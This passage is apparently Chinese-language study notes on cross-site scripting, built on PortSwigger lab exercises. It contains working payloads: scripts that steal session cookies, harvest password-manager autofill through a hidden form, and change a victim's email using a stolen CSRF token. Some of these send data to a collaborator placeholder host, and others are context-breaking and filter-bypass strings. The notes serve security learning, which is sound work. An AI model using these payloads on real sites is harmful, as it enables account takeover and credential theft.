  * portswigger 示例，评论区注入脚本获取用户 cookie，这里由于实验限制就将 cookie 以 POST 请求提交评论的形式打印出来，实际会替换为服务器：

    ```javascript
    <script>
    window.onload = function() {
        var csrfEl = document.querySelector('input[name="csrf"]');
        var postIdEl = document.querySelector('input[name="postId"]');
    
        if (!csrfEl || !postIdEl) {
            console.error('csrf 或 postId 没找到:', csrfEl, postIdEl);
            return;
        }
    
        var csrf = csrfEl.value;
        var postId = postIdEl.value;
        var cookieValue = document.cookie;
    
        fetch('/post/comment', {
            method: 'POST',
            headers: {'Content-Type': 'application/x-www-form-urlencoded'},
            body: 'csrf=' + encodeURIComponent(csrf) +
                  '&postId=' + encodeURIComponent(postId) +
                  '&comment=' + encodeURIComponent(cookieValue) +
                  '&name=a&email=b%40c.d&website=http%3A%2F%2Fe.f'
        });
    };
    </script>
    ```

    * 官方简洁版
    
      ```javascript
      <script>
      fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
      method: 'POST',
      mode: 'no-cors',
      body:document.cookie
      });
      </script>
      ```
    
      

* 截获密码

  * 伪造输入框，让用户输入

  * 或者利用当前很多密码管理器会自动填充密码，读取填充的密码并转发

  * portswigger 示例，产生一个表单诱导密码管理器填充，然后将获取的值发送出来，这里和上面示例一样打印到评论区：

    * 主要是将生成的 input 输入框 name、password 的属性设置为 autocomplete，大多数密码管理器通过该属性识别和填充
    * 这里有一行 `form.style.cssText = 'position:absolute;top:-9999px;left:-9999px;';` 注释掉了，作用是视觉上隐藏该输入框，使得密码管理器可以检测到但人眼无法直接看到，但在这个实验中不能获取到就注释掉。

    ```javascript
    <script>
    window.onload = function() {
        // 创建一个视觉上隐藏、但密码管理器能识别的登录表单
        var form = document.createElement('form');
        //form.style.cssText = 'position:absolute;top:-9999px;left:-9999px;';
    
        var userInput = document.createElement('input');
        userInput.setAttribute('type', 'text');
        userInput.setAttribute('name', 'username');
        userInput.setAttribute('autocomplete', 'username');
    
        var passInput = document.createElement('input');
        passInput.setAttribute('type', 'password');
        passInput.setAttribute('name', 'password');
        passInput.setAttribute('autocomplete', 'current-password');
    
        form.appendChild(userInput);
        form.appendChild(passInput);
        document.body.appendChild(form);
    
        // 等待密码管理器自动填充（通常需要短暂延迟）
        setTimeout(function() {
            var username = userInput.value;
            var password = passInput.value;
    
            // 没有填充内容就不提交，避免提交空评论
            if (!username && !password) {
                console.log('未检测到自动填充内容');
                return;
            }
    
            var csrf = document.querySelector('input[name="csrf"]').value;
            var postId = document.querySelector('input[name="postId"]').value;
            var captured = 'username=' + username + '&password=' + password;
    
            fetch('/post/comment', {
                method: 'POST',
                headers: {'Content-Type': 'application/x-www-form-urlencoded'},
                body: 'csrf=' + encodeURIComponent(csrf) +
                      '&postId=' + encodeURIComponent(postId) +
                      '&comment=' + encodeURIComponent(captured) +
                      '&name=a&email=b%40c.d&website=http%3A%2F%2Fe.f'
            });
        }, 2000); // 等待 2 秒，给密码管理器足够的时间完成自动填充
    };
    </script>
    ```

    * 官方的答案更简洁：

    ```javascript
    <input name=username id=username>
    <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
    method:'POST',
    mode: 'no-cors',
    body:username.value+':'+this.value
    });">
    ```

    

* 绕过 CSRF 防护，XSS 攻击可以被利用做很多事情 

  * 发送消息、接收好友请求、修改信息、提交后门代码、转账等

  * 传统 CSRF 漏洞是单向的，攻击者无法看到响应的内容，但结合 XSS 就可以获取到响应内容，从而实现双向通信，发送任意请求，并获取任意响应内容

  * CSRF token 这种防护对 XSS 无效，因为可以读取到响应中的 token 值

  * portswigger 示例，实验博客的评论区存在 XSS 漏洞，通过如下脚本可以修改受害者的邮箱：

    ```javascript
    <script>
    fetch('/my-account', {credentials: 'same-origin'})
        .then(response => response.text())
        .then(data => {
            // 从 /my-account 页面的HTML里，正则提取出 csrf token
            const csrfMatch = data.match(/name="csrf" value="([^"]+)"/);
            if (!csrfMatch) {
                console.error('未能提取到 csrf token');
                return;
            }
            const csrf = csrfMatch[1];
    
            // 用这个 csrf token，提交修改邮箱的请求
            return fetch('/my-account/change-email', {
                method: 'POST',
                headers: {'Content-Type': 'application/x-www-form-urlencoded'},
                credentials: 'same-origin',
                body: 'csrf=' + csrf + '&email=attacker@evil-collaborator.net'
            });
        })
        .then(response => {
            if (response && response.ok) {
                console.log('邮箱修改请求已提交');
            }
        })
        .catch(error => console.error('错误：', error));
    </script>
    ```

    * 官方简洁版：
    
      ```javascript
      <script>
      var req = new XMLHttpRequest();
      req.onload = handleResponse;
      req.open('get','/my-account',true);
      req.send();
      function handleResponse() {
          var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
          var changeReq = new XMLHttpRequest();
          changeReq.open('post', '/my-account/change-email', true);
          changeReq.send('csrf='+token+'&email=test@test.com')
      };
      </script>
      ```
    
      


### XSS contexts

常见的 XSS context 有：

* HTML tag

  * 常用的 HTML tag 是利用 JavaScript 触发，例如：

    ```javascript
    <script>alert(document.domain)</script>
    
    ```

  * portswigger 常见 XSS cheat-sheet 表，包含tags、events ：https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

  * 一些自定义标签、属性

  * SVG 等标签，这些标签使用相对较少，有时 WAF 等设备规则库中没有包含，导致不会全部检测

* HTML tag attributes

  * 常见的是利用漏洞中断属性标签，插入 payload，例如：`"><script>alert(document.domain)</script>`
  * 但是现在很多框架或网站对 `<` `>` 这种尖括号进行了屏蔽或者编码，就需要其它手段中断属性，例如 `" autofocus onfocus=alert(document.domain) x="` ，当元素获取到焦点时，会触发一个 onfocus 焦点事件，执行设置的 js 代码 alert()，并添加 x= 去修复后续 HTML 标签

* JavaScript

  * 结束已存在的 script 标签，例如有一段js如下：

    ```
    <script>
    ...
    var input = 'controllable data here';
    ...
    </script>
    ```

    * 将 input 内容替换为：`</script>` 就可以结束 script 段并注入新内容

  * 中断 js 字符串

    * 常见的有

      ```
      '-alert(document.domain)-'
      ';alert(document.domain)//
      ```

    * 有的网站使用转义字符 `\` 将一些特殊字符转义后再交给 js 解析器，但有时实现的不够完善仍会存在漏洞，例如 `';alert(document.domain)//` 这样一个 payload ，可能被转移为 `\';alert(document.domain)//`，此时将 payload 修改为 `\';alert(document.domain)//`，语句就被转义为 `\\';alert(document.domain)//`

    * 在更严格一些的场景中，例如部署了 WAF 等设备，会对输入的字符做限制，`()` 之类的会被限制，此时可以利用 `throw` 关键字，例如 `onerror=alert;throw 1` 中 throw 会将参数 1 传递给 alert 执行，参考 ：https://portswigger.net/research/xss-without-parentheses-and-semi-colons

  * Making use of HTML-encoding

    * 注入点位于 HTML 的属性，浏览器在解析 response 中的 HTML 标签时，会先对属性值做一次 decode ，如果服务端拦截了一些 XSS，此时就可以加以利用，将要注入的内容以 HTML 编码的形式提交以绕过服务端检测
    * 示例：`<a href="#" onclick="... var input='controllable data here'; ...">`
    * 上面示例可以使用 `&apos;-alert(document.domain)-&apos;` 注入内容，`&apos;` 会被转义成单引号(撇号)

  * XSS in JavaScript template literals

    * JS 模板字符串，是一种允许内嵌 JS 表达式的字符串写法

    * 示例：可以通过 `${}` 注入内容

      ```
      document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;
      ```

    * 注入 `${alert(document.domain)}` 

* Client-side template injection

  * 有一些网站使用客户端模板框架，例如 AngularJS，动态生成web页面，如果这些框架存在不安全的实现，也会导致黑客利用模板表达式注入XSS内容
  * AngularJS 模板注入：https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs


### Dangling markup injection


### Content Security Policy (CSP)


